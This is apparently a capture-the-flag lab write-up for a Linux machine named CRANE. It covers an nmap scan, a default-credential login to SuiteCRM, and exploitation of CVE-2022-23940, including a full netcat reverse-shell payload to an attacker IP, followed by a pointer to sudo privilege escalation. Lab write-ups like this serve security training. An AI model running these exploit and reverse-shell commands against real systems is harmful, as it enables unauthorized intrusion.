

# CRANE

OS Linux

# Nmap


```sh
PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 3780014a438630c979e7fb7f3ba41edd (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDBCcfKYKMXuTWeyLKlFNHgmebcXbFAjSpbr39R8GFHYRmc/mZXKNgEoa5gkFAVr8kVVul4X6//DcnRuHtrCpHcnTIZLT9g1DPB09VsLzsjT0TpmqkcDYtZazo1mjnBZdaM+AxoDMghZd8AXiNrCl7jCN+vRjUQc8T1wD4PoC02XjeCAI8Yha++Mv9ZrSPZ+/gBvgZPL3pdQhVGUSUHOmXod4xcdm5ReNiZRNZklOhhscbGfSCqQIdJogegZfMrlueeG3EY7Kkf5CxAUDH/9ir2dEDDifIpqKV8W7ncKEpsZiqgDh36OdMX4LPJ0NmZiT/g8CvINx7k4HWj3ksT+5C7
|   256 b618a1e198fb6cc687554510c6d445b9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEK0B9iLJQztyEpGiNffHgQuGcxZRO/BOi+r0j/P8Hkz02pIWW2hFrArbzehUNQ46ZmFwMhxxmrIOLBpUt9ZGBw=
|   256 ab8f2de8a204e7b765d3fe5e931e0367 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOAlO2qlRhyMwzzf3xAK4wOGz1UD5t9+QQO5J3QjTkaZ
80/tcp    open  http    syn-ack Apache httpd 2.4.38 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.38 (Debian)
|_http-favicon: Unknown favicon MD5: ED9A8C7810E8C9FB7035B6C3147C9A3A
| http-title: SuiteCRM
|_Requested resource was index.php?action=Login&module=Users
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/
3306/tcp  open  mysql   syn-ack MySQL (unauthorized)
33060/tcp open  mysqlx? syn-ack
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|     HY000
|   LDAPBindReq: 
|     *Parse error unserializing protobuf message"
|     HY000
|   oracle-tns: 
|     Invalid message-frame."
|_    HY000
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33060-TCP:V=7.93%I=7%D=9/27%Time=651419EA%P=x86_64-pc-linux-gnu%r(N
....
```

So we have a couple of interesting ports. Let's have a look at the webpage on port 80:


We can see that it's running software suitecrm

> SuiteCRM is an open-source Customer Relationship Management application for servers written in PHP.

We can log in with trhe default credentials admin/admin.

If we browse to the about page the version number opf the software becomes clear. Version 7.12.3 


This version has an authenticated RCE vulnerabilty (CVE-2022-23940). An exploit is available [here](https://github.com/manuelz120/CVE-2022-23940)

After trying several payloads I found out that the machine would not connect to every port, but port 80 seemed to be working.

```sh
python3 exploit.py -h http://192.168.175.146 -u admin -p admin --payload "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.45.228 80 >/tmp/f"
```

Now we can catch the shell as user www-data


# Privilege Escalation
When enumerating with linpeas we see that the user www-data can run `/usr/sbin/service` as root without a password.


The way to exploit this can be found at [gtfobins](https://gtfobins.github.io/gtfobins/service/#sudo)



